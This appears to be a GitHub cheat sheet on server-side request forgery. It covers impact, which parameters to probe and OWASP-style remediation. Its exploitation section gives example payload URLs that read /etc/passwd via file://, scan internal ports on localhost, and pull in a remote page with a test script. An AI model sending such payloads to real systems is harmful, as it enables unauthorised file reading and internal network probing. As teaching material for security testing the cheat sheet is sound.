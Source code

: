 # SSRF (Server Side Request Forgery)

SSRF refers to an attack where an attacker is able to send crafted request from vulnerable web application.

Attacker use parameters used in web application to control request from vulnerable server.
e.g:. `http://websitename.com/?parameter=http://anotherwebsite.com` So server is making request behalf of attacker.

## Impact 

- Bypass ip whitelisting
- Bypass host based authentication
- Scan the internal network
- Abuse of vulnerable website to blacklist 

## 🔎 How to Find

Find any parameter that may have some kind of external interaction or they can interact to external domain.

Example: `http://example.com/profile/php?uri=http://externalwebsite.com `

## Possible Related parameter for SSRF

```
| dest | redirect | uri | path | continue | url | window | next | data | reference | site | html | val | validate 
| domain | callback | return | page | view | dir | show | file | document | folder | root | path | pg | style 
| pdf | template | php_path | doc | feed | host | port | to | out | navigation open result
```

## Exploitation

1. Read file from the server: `http://example.com/profile?file=file:///../etc/passwd`  (here **../etc/passwd** is payload. replace with other payload)

2. Scan internal network open ports: `http://example.com/profile?file=http://localhost:21`  (here **21** is port. change one by one)

3. SSRF through RFI: `http://example.com/profile?file=https://yourwebsite.com/test.html`  (Create malicioud file **test.html** with contain this ` <script>alert(1)</script> ` script and host this file at server.

## Remediation
1. From Application layer:

 - Sanitize and validate all client-supplied input data
 - Enforce the URL schema, port, and destination with a positive allow list
 - Do not send raw responses to clients
 - Disable HTTP redirections
 - Be aware of the URL consistency to avoid attacks such as DNS rebinding and “time of check, time of use” (TOCTOU) race conditions

Do not mitigate SSRF via the use of a deny list or regular expression. Attackers have payload lists, tools, and skills to bypass deny lists.

2. From Network layer

 - Segment remote resource access functionality in separate networks to reduce the impact of SSRF.
 - Enforce “deny by default” firewall policies or network access control rules to block all but essential intranet traffic.
    Hints:
    ~ Establish an ownership and a lifecycle for firewall rules based on applications.
    ~ Log all accepted and blocked network flows on firewalls (see A09:2021-Security Logging and Monitoring Failures).

3. Additional Measures to consider:

 - Don't deploy other security relevant services on front systems (e.g. OpenID). Control local traffic on these systems (e.g. localhost)
 - For frontends with dedicated and manageable user groups use network encryption (e.g. VPNs) on independant systems to consider very high protection needs


## Refrence 

- https://portswigger.net/web-security/ssrf
- https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/
